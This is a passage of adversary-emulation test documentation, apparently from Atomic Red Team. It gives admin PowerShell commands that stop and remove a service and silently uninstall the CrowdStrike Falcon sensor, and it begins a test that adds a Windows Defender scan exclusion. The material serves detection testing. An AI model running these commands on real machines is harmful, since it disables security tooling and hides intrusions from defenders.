 
#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin)


```powershell
Stop-Service -Name #{service_name}
Remove-Service -Name #{service_name}
```






<br/>
<br/>

## Atomic Test #20 - Uninstall Crowdstrike Falcon on Windows
Uninstall Crowdstrike Falcon. If the WindowsSensor.exe path is not provided as an argument we need to search for it. Since the executable is located in a folder named with a random guid we need to identify it before invoking the uninstaller.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| falcond_path | The Crowdstrike Windows Sensor path. The Guid always changes. | path | C:&#92;ProgramData&#92;Package Cache&#92;{7489ba93-b668-447f-8401-7e57a6fe538d}&#92;WindowsSensor.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin)


```powershell
if (Test-Path "#{falcond_path}") {. "#{falcond_path}" /repair /uninstall /quiet } else { Get-ChildItem -Path "C:\ProgramData\Package Cache" -Include "WindowsSensor.exe" -Recurse | % { $sig=$(Get-AuthenticodeSignature -FilePath $_.FullName); if ($sig.Status -eq "Valid" -and $sig.SignerCertificate.DnsNameList -eq "CrowdStrike, Inc.") { . "$_" /repair /uninstall /quiet; break;}}}
```






<br/>
<br/>

## Atomic Test #21 - Tamper with Windows Defender Evade Scanning -Folder
Malware can exclude a specific path from being scanned and evading detection.
Upon successul execution, the file provided should be on the list of excluded path.
To check the exclusion list using poweshell (Get-MpPreference).ExclusionPath
